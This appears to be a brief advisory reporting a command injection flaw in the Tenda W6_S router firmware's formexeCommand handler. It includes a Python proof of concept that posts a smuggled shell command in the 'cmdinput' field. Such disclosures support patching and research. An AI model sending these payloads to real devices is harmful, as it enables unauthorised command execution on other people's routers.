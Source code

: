# command injection

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a command injection in httpd/formexeCommand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](1.png)

get value from cmdinput

![](2.png)

then pass to tpi_get_ping_output, split the string and call popen, cause command execution 

## POC
```
url = "http://192.168.1.13/goform/formexeCommand"
payload = 'asd;ls  > ./tmp/hack;aa'

r = requests.post(url, data={'cmdinput': payload})
``` 
